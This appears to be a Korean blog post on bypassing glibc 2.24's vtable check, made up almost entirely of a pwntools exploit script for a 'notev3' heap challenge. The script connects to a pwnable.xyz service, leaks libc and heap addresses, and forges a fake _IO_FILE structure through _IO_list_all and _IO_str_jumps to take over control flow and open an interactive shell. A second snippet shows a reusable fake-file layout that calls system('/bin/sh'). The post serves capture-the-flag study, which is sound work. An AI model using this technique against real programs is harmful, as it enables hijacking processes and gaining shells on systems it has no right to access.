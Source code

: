 # Vtable check bypass



## 예제 pwnable.tw notev3

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div><div style="line-height:130%">36</div><div style="line-height:130%">37</div><div style="line-height:130%">38</div><div style="line-height:130%">39</div><div style="line-height:130%">40</div><div style="line-height:130%">41</div><div style="line-height:130%">42</div><div style="line-height:130%">43</div><div style="line-height:130%">44</div><div style="line-height:130%">45</div><div style="line-height:130%">46</div><div style="line-height:130%">47</div><div style="line-height:130%">48</div><div style="line-height:130%">49</div><div style="line-height:130%">50</div><div style="line-height:130%">51</div><div style="line-height:130%">52</div><div style="line-height:130%">53</div><div style="line-height:130%">54</div><div style="line-height:130%">55</div><div style="line-height:130%">56</div><div style="line-height:130%">57</div><div style="line-height:130%">58</div><div style="line-height:130%">59</div><div style="line-height:130%">60</div><div style="line-height:130%">61</div><div style="line-height:130%">62</div><div style="line-height:130%">63</div><div style="line-height:130%">64</div><div style="line-height:130%">65</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#context.log_level&nbsp;=&nbsp;'debug'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;make_note(size,title):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendlineafter(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendlineafter(<span style="color:#63a35c">'Size:'</span>,<span style="color:#066de2">str</span>(size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendafter(<span style="color:#63a35c">'Title:'</span>,title)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;make_note1(size,title,note):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendlineafter(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendlineafter(<span style="color:#63a35c">'Size:'</span>,<span style="color:#066de2">str</span>(size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendafter(<span style="color:#63a35c">'Title:'</span>,title)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendafter(<span style="color:#63a35c">'Note:'</span>,note)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;edit_note(idx,data):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendlineafter(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'2'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendlineafter(<span style="color:#63a35c">'Note:'</span>,<span style="color:#066de2">str</span>(idx))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendafter(<span style="color:#63a35c">'Data:'</span>,data)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;list_note():</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;r.sendlineafter(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'3'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#r=process('./challenge',env={'LD_PRELOAD':'alpine-libc-2.24.so'})</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>remote(<span style="color:#63a35c">'svc.pwnable.xyz'</span>,<span style="color:#0099cc">30041</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">win<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#0099cc">0x4008a2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">script<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">''</span><span style="color:#63a35c">'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">'</span><span style="color:#63a35c">''</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">_IO_str_jumps_off<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#0099cc">0x390500</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#debug&nbsp;=&nbsp;+21640</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#server&nbsp;=&nbsp;-(libc.symbols['__malloc_hook']+88+0x10)&nbsp;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">e<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'./challenge'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'./alpine-libc-2.24.so'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">make_note(<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">1</span>,<span style="color:#63a35c">'AAAA'</span>)<span style="color:#999999">#1</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">edit_note(<span style="color:#0099cc">0</span>,p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x31</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">5</span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'\xb1\x0f\x00'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'\x00'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0xff</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">make_note1(<span style="color:#0099cc">0x1000</span>,<span style="color:#63a35c">'\n'</span>,<span style="color:#63a35c">'\x00'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0xff</span>)<span style="color:#999999">#2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">make_note(<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">1</span>,<span style="color:#63a35c">'AAAA'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">2</span>)<span style="color:#999999">#3</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">list_note()</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.recvuntil(<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">8</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">value<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u64(r.recvuntil(<span style="color:#63a35c">'\x7f'</span>).ljust(<span style="color:#0099cc">8</span>,<span style="color:#63a35c">'\x00'</span>))</div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(value))</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc_base<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>value<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span>(libc.symbols[<span style="color:#63a35c">'__malloc_hook'</span>]<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">88</span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x10</span>)&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">_IO_list_all<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>libc_base<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>libc.symbols[<span style="color:#63a35c">'_IO_list_all'</span>]<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x10</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(libc_base))</div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(_IO_list_all))</div><div style="padding:0 6px; white-space:pre; line-height:130%">heap_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x31</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">72</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">edit_note(<span style="color:#0099cc">0</span>,heap_leak)</div><div style="padding:0 6px; white-space:pre; line-height:130%">list_note()</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.recvuntil(<span style="color:#63a35c">'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">heap<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u64(r.recv(<span style="color:#0099cc">4</span>).ljust(<span style="color:#0099cc">8</span>,<span style="color:#63a35c">'\x00'</span>).replace(<span style="color:#63a35c">'\x3a'</span>,<span style="color:#63a35c">'\x00'</span>))<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x50</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(heap))</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x31</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">4</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">fake<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x61</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(libc_base)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(_IO_list_all)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">2</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">3</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(libc_base<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>list(libc.search(<span style="color:#63a35c">'/bin/sh'</span>))[<span style="color:#0099cc">0</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x10</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">fake<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">fake<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(libc_base<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>libc.symbols[<span style="color:#63a35c">'_IO_file_jumps'</span>]<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0xc0</span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x8</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>fake.ljust(<span style="color:#0099cc">0xe8</span>,<span style="color:#63a35c">'\x00'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(win)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">40</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>fake</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit_note(<span style="color:#0099cc">2</span>,payload)</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.sendlineafter(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.sendlineafter(<span style="color:#63a35c">'Size:'</span>,<span style="color:#63a35c">'1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#gdb.attach(r,script)</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>



https://st4nw.github.io/glibc2.24-orange



<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">fake&nbsp;=&nbsp;p64(0)&nbsp;+&nbsp;p64(0x61)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake&nbsp;+=&nbsp;p64(0)&nbsp;+&nbsp;p64(_IO_list_all-0x10)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake&nbsp;+=&nbsp;p64(2)&nbsp;+&nbsp;p64(3)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake&nbsp;+=&nbsp;p64(0)&nbsp;+&nbsp;p64(binsh)&nbsp;#&nbsp;_IO_buf_base</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake&nbsp;+=&nbsp;p64(0)&nbsp;*&nbsp;0x10</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake&nbsp;+=&nbsp;p64(0)&nbsp;#&nbsp;mode</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake&nbsp;+=&nbsp;p64(0)&nbsp;*&nbsp;2</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake&nbsp;+=&nbsp;p64(_IO_str_jumps-0x8)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake&nbsp;=&nbsp;fake.ljust(0xe8,&nbsp;'\x00')</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake&nbsp;+=&nbsp;p64(system)</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>



